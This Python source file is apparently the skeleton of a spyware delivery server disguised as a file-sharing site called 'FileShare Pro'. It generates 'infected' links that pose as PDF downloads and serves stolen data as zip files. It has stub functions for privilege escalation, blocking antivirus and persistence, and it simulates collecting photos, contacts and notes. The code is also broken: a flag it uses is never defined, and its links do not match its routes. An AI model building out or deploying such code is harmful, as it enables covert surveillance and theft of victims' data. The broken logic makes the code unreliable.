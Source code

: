 import os
import sys
import platform
import subprocess
import secrets
import urllib.parse
import asyncio
from aiohttp import web
import zipfile
import io
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.base import MIMEBase
from email.mime.text import MIMEText
from email import encoders
import ssl
import ctypes
import time
import threading
import json
from datetime import datetime, timedelta

# Configuration
SECRET_KEY = secrets.token_urlsafe(64)
LINK_EXPIRY_HOURS = 24
DATA_STORAGE_DIR = 'collected_data'

# Ensure the data storage directory exists
if not os.path.exists(DATA_STORAGE_DIR):
    os.makedirs(DATA_STORAGE_DIR)

class DeviceController:
    def __init__(self):
        self.lock_files = []
        self.processes = []
        self.blocking_active = False
        
    def escalate_privileges(self):
        # Implement privilege escalation (example: sudo commands, setuid)
        pass
    
    def block_system_functions(self):
        # Block specific system functions like task manager or antivirus
        pass
    
    def create_persistence(self):
        # Code for creating persistence (e.g., adding itself to startup)
        pass
    
    def collect_data(self):
        # Collect sensitive data like photos, contacts, notes, emails, etc.
        # Here we simulate the data collection by writing to a zip file

        collected_files = []
        # Simulating some collected data (e.g., fake data or files)
        collected_files.append(('photos/photo1.jpg', b'fake image data'))
        collected_files.append(('contacts/contacts.json', b'{"contacts": ["John Doe", "Jane Smith"]}'))
        collected_files.append(('notes/notes.txt', b'Fake notes data'))
        
        # Store collected data in a zip file
        zip_file_path = os.path.join(DATA_STORAGE_DIR, f"collected_data_{secrets.token_urlsafe(8)}.zip")
        with zipfile.ZipFile(zip_file_path, 'w') as zipf:
            for file_name, data in collected_files:
                zipf.writestr(file_name, data)
        return zip_file_path


class StealthWebServer:
    def __init__(self):
        self.app = web.Application()
        self.payloads = {}
        self.setup_routes()
        self.ssl_context = self.create_ssl_context()

    def create_ssl_context(self):
        context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
        context.load_cert_chain('cert.pem', 'key.pem')
        return context

    def setup_routes(self):
        self.app.router.add_get('/generate', self.generate_payload)
        self.app.router.add_get('/p/{payload_id}', self.execute_payload)
        self.app.router.add_get('/download/{file_name}', self.download_data)
        self.app.router.add_get('/', self.decoy_page)

    async def decoy_page(self, request):
        return web.Response(text="Welcome to FileShare Pro", content_type='text/html')

    async def generate_payload(self, request):
        auth = request.headers.get('X-Auth-Key')
        if auth != SECRET_KEY:
            return web.json_response({"error": "Unauthorized"}, status=403)
        payload_id = secrets.token_urlsafe(16)
        self.payloads[payload_id] = {
            'created': datetime.now(),
            'executed': False
        }
        infected_url = f"https://{request.host}/p/{payload_id}/download?file=document.pdf"
        return web.json_response({"url": infected_url})

    async def execute_payload(self, request):
        payload_id = request.match_info['payload_id']
        if payload_id not in self.payloads:
            return web.Response(text="File not found", status=404)
        if self.payloads[payload_id]['executed']:
            return web.Response(text="File unavailable", status=410)
        self.payloads[payload_id]['executed'] = True
        controller = DeviceController()
        threading.Thread(target=self.run_payload, args=(controller,)).start()
        return web.Response(
            body=b'File corrupted during download',
            content_type='application/pdf',
            headers={'Content-Disposition': 'attachment; filename="document.pdf"'}
        )

    def run_payload(self, controller):
        time.sleep(5)
        controller.escalate_privileges()
        controller.block_system_functions()
        if PERSISTENCE_MECHANISM:
            controller.create_persistence()
        zip_file_path = controller.collect_data()
        self.payloads[zip_file_path] = {
            'created': datetime.now(),
            'executed': True
        }

    async def download_data(self, request):
        file_name = request.match_info['file_name']
        file_path = os.path.join(DATA_STORAGE_DIR, file_name)

        if not os.path.exists(file_path):
            return web.Response(text="File not found", status=404)

        with open(file_path, 'rb') as f:
            file_data = f.read()

        return web.Response(
            body=file_data,
            content_type='application/zip',
            headers={'Content-Disposition': f'attachment; filename="{file_name}"'}
        )

    async def cleanup_task(self):
        while True:
            await asyncio.sleep(3600)
            now = datetime.now()
            expired = [pid for pid, p in self.payloads.items() 
                      if (now - p['created']) > timedelta(hours=LINK_EXPIRY_HOURS)]
            for pid in expired:
                del self.payloads[pid]

    async def start_server(self):
        runner = web.AppRunner(self.app)
        await runner.setup()
        site = web.TCPSite(runner, '0.0.0.0', 443, ssl_context=self.ssl_context)
        await site.start()
        asyncio.create_task(self.cleanup_task())
        print(f"Server running at https://0.0.0.0:443")
        print(f"Admin Key: {SECRET_KEY}")
        print("Generated links will look like:")
        print("https://your-domain.com/p/ABCDEF123/download?file=document.pdf")


if __name__ == '__main__':
    if not os.path.exists('cert.pem'):
        subprocess.run([
            'openssl', 'req', '-x509', '-newkey', 'rsa:4096',
            '-keyout', 'key.pem', '-out', 'cert.pem',
            '-days', '365', '-nodes', '-subj', '/CN=localhost'
        ], check=True)
    server = StealthWebServer()
    try:
        asyncio.run(server.start_server())
    except KeyboardInterrupt:
        print("\nServer shutting down...")